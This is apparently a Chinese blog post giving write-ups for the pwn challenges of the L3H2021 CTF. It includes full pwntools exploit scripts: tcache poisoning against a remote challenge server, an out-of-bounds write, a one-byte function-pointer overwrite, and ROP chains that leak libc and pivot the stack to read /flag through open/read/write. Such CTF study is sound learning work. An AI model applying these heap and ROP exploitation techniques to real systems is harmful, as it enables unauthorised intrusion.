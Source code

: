 ```yaml
---
title: L3H2021 PWN部分
date: 2021-11-29 22:47:41
tags: [CTF,Pwn,Python]
categories: 
 - CTF
cover: https://res.cloudinary.com/sycamore/image/upload/v1682436269/Typera/2023/04/2b4c8ea294f30ddf5d63bfe0cb363e5f.png
---
```


## spn(11.26)

[附件下载](https://cdn.jsdelivr.net/gh/noneSycamore/annex/pwn_spn.zip)
复现这道题的时候，我一开始用的是0RAYS的解法，大致是找spn的解密脚本，计算给出的shell的真实地址，然后用tcache打shell，最后选5进backdoor.
虽说是读懂了0RAYS的脚本，而且也算是进一步学习了一下tcache的机制，
然而我一番搜索，着实找不到好用的spn解密脚本，就只好另寻出路.
0RAY的脚本放上：

```python
#!/usr/bin/python
# -*- coding:utf-8 -*-

from pwn import *
import sys
context.log_level = 'debug'
context.arch='amd64'

local=0
binary_name='SPN_ENC'
libc_name='lib/libc-2.27.so'
if local:
    p=process("./"+binary_name)
    libc=ELF("./"+libc_name)
else:
    p=remote('124.71.194.126',9999)
    e=ELF("./"+binary_name)
    libc=ELF("./"+libc_name)

def z(a=''):
    if local:
        gdb.attach(p,a)
        if a=='':
            raw_input
    else:
        pass
ru=lambda x:p.recvuntil(x)
sl=lambda x:p.sendline(x)
sd=lambda x:p.send(x)
sa=lambda a,b:p.sendafter(a,b)
sla=lambda a,b:p.sendlineafter(a,b)
ia=lambda :p.interactive()
# 这里真的是学到了，不过也是我之前看大佬的wp太少的缘故，之前我还在傻傻地一个字一个字地敲(+_+)

def leak_address():
    if(context.arch=='i386'):
        return u32(p.recv(4))
    else :
        return u64(p.recv(6).ljust(8,b'\x00'))

def cho(num):
    sla("0.exit\n",str(num))
def add(size,idx):
    cho(1)
    sla("Size:",str(size))
    sla("Index:",str(idx))
def delete(idx):
    cho(3)
    sla("Index:",str(idx))
def show(idx):
    cho(4)
    sla("Index:",str(idx))
def edit(idx,size,data):
    cho(2)
    sla("Index:",str(idx))
    sla("Size",str(size))
    sa("Content",data)
def backdoor():
    cho(5)
def decrypt(x):
    io = process('./spn_dec.py')
    io.sendline(str(x&0xffff))
    a = int(io.recv()[:-1])
    io.close()
    return a
def spn_dec(x):
    a1 = decrypt(x)
    a2 = decrypt(x>>16)
    a3 = decrypt(x>>32)
    aa = a1+a2*0x10000+a3*0x100000000
    print(hex(a3),hex(a2),hex(a1))
    print(aa)
    return aa

ru("gift:")
shell_addr=int(ru('\n'),16)
print(hex(shell_addr))
aa = spn_dec(shell_addr)
print(hex(aa))
add(0x10,0)
add(0x10,1)
add(0x10,2)
delete(2)
delete(1)
edit(0,0x26,b'a'*0x20+p64(aa)[:-2])
add(0x10,3)
add(0x10,4)
edit(4,2,b'aa')
backdoor()
ia()

# 害，身为菜鸡，我连脚本都没大佬写得好看
```
然后，我找到了另一种解法，输入0x1000，数组越界写了shell，可以直接backdoor

![image-20230425232554399](https://res.cloudinary.com/sycamore/image/upload/v1682436358/Typera/2023/04/0a873d7de40231b015e0a70c0c4466c6.png)

```python
add(0,0x1000)
add(1,0x20)
edit(0,0x1000+2,'\n')
backdoor()
```
## checkin(11.27)
[附件下载](https://cdn.jsdelivr.net/gh/noneSycamore/annex/pwn_checkin.zip "附件下载")
### 关于ASan
这道题使用了ASan，是一种影子内存的技术。关于它的具体内容可以参考[这篇文章](https://bestwing.me/ASan-and-ASan-in-CTF%280ctf-babyaegis%29.html)
这里记录一点大致的内容
ASan 是 Google 开源的一个用于进行内存检测的工具，它由两个主要部分构成，插桩和动态运行库( Run-time library )。
插桩主要是针对在llvm编译器级别对访问内存的操作(store，load，alloca等)，将它们进行处理。
动态运行库主要提供一些运行时的复杂的功能(比如poison/unpoison shadow memory)以及将malloc,free等系统调用函数hook住
ASan采用了直接内存映射策略，具体的映射策略如下所示
**64位**
> Shadow = (Mem >> 3) + 0x7fff8000;

**32位**
> Shadow = (Mem >> 3) + 0x20000000;

### 关于orw
**由来：**
有些pwn题为了增加难度，会在程序初始化的时候增加seccomp函数，禁用掉除了sys_open,sys_write,sys_read以外的所有系统调用。也就是说我们无法通过system（‘/bin/sh’）来getshell，只能通过o，r，w这三个系统调用获取flag。
**漏洞利用：**
首先调用open函数打开flag文件。
然后读取flag文件。
最后通过wirte将flag打印出来。
```python
sys_open("flag")//读取flag
sys_read("rax","rsp",0x40)//rax为sysoopen的返回值，也就是flag，然后将flag写到esp下
sys_write(1,"rsp",0x40)//打印flag的值到屏幕输出
```
害，还是知识不到位，这里再放一篇挺详细的[orw介绍](https://www.codeleading.com/article/72315735518/)
### 分析
pwn内可以任意地址写一个字节，故修改 _ZN14__interception21real___isoc99_vfscanfE 的第二个字节，使其指向gets函数(0x73ED28)
![image-20230425232602805](https://res.cloudinary.com/sycamore/image/upload/v1682436366/Typera/2023/04/38fe2a7349d7b29477d22b0f72026408.png)

```python
sla(b'Welcome! A gift for you:',str(0x73edb8+1))
sleep(1)
sd(b'\x91')
sa(b'Leave a note.',b'a'*0x1f)
sa(b"That's all. Have fun!",p64(0x43FBB3))
```
构造rop，调用gets函数，泄露libc_addr地址
```python
pop_rdi = 0x41af0b
pop_rsp = 0x484d50
call_puts = 0x43A286
rop = p64(pop_rdi)+p64(0x72DE30)+p64(call_puts)+b'a'*0x838+p64(0)*6+p64(pop_rdi)+p64(0xA00000)+p64(0x43FBB3)+b'a'*0x30+p64(0)*3+p64(pop_rsp)+p64(0xA00000)
try:
    p.recv()
    sl(rop)
    libc_addr = leak_address()-0x407e0
    print(hex(libc_addr))
    if libc_addr == 0x736572605c61:
        p.close()
        return 0
except Exception:
    return 0
print(hex(libc_addr))
```
最后栈迁移+orw调用获取flag文件
```python
binsh=libc_addr+0x1B3E1A
system=libc_addr+0x4f550
pop_rsi=0x000000000041ab7c
pop_rdx=0x000000000043ced2
open_addr=libc_addr+libc.sym['open']
read_addr=libc_addr+libc.sym['read']
write_addr=libc_addr+libc.sym['write']
rop2 = p64(pop_rdi)+p64(0xA00100)+p64(pop_rsi)+p64(0)+p64(open_addr)
rop2 += p64(pop_rdi)+p64(3)+p64(pop_rsi)+p64(0xA00200)+p64(pop_rdx)+p64(0x100)+p64(read_addr)
rop2 += p64(pop_rdi)+p64(1)+p64(pop_rsi)+p64(0xA00200)+p64(pop_rdx)+p64(0x100)+p64(write_addr)
rop2 = rop2.ljust(0x100,b'\x00')+b'/flag\x00'
sl(rop2)
```
## slow_spn(11.29)
[附件下载](https://cdn.jsdelivr.net/gh/noneSycamore/annex/pwn_slow-spn.zip "附件下载")
这题感觉挺奇怪的。。。
貌似除了pwntools工具，就没有用到啥和pwn相关的东西，主要的解题思路也没啥漏洞利用的感觉，大概属于密码。
程序的大概流程就是：从flag文件里面导出key和plaintext，然后通过s盒和p盒放入cache里面.
![image-20230425232612526](https://res.cloudinary.com/sycamore/image/upload/v1682436377/Typera/2023/04/d98248de6bbcdd6c0a8ae6fa6d3523de.png)
cache是题目实现的，最多可以往里添加0x20个数（模拟访问s盒中的地址），超过了会剔除最小的一个，若是cache命中了则使用算法计数，未命中则sleep(1)，
由于题目给了一次访问plaintext在s盒中的地址的机会，所以可以通过遍历来爆破，通过sleep(1)判断cache是否命中，然后推出上图中p，v9，v7，v5以及k>>8，k>>4，k的值，然后拼接得到key.
![image-20230425232621850](https://res.cloudinary.com/sycamore/image/upload/v1682436385/Typera/2023/04/f5836a7db5ff249e037d1a839c975876.png)

